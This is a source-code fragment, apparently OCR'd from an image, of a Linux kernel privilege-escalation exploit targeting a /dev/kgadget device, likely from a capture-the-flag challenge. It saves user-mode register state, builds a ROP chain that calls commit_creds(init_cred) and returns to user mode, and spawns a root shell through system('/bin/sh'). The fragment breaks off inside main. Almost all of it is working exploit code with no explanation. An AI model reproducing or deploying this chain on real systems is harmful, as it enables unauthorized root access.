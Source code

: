 ```c
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error : \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void getRootShell(void)
{   
    puts("\033[32m\033[1m[+] Backing from the kernelspace.\033[0m");

    if(getuid())
    {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(-1);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m");
    system("/bin/sh");
    exit(0);// to exit the process normally instead of segmentation fault
}

void constructROPChain(size_t *rop)
{
    int idx = 0;

    // gadget to trigger pt_regs and for slide
    for (; idx < (page_size / 8 - 0x30); idx++)
        rop[idx] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;

    // more normal slide code
    for (; idx < (page_size / 8 - 0x10); idx++)
        rop[idx] = ret;

    // rop chain
    rop[idx++] = pop_rdi_ret;
    rop[idx++] = init_cred;
    rop[idx++] = commit_creds;
    rop[idx++] = swapgs_restore_regs_and_return_to_usermode;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) getRootShell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;
}

int main(int argc, char **argv, char **envp)
{
    saveStatus();

    dev_fd = open("/dev/kgadget", O_RDWR);
    if (dev_fd < 0)
```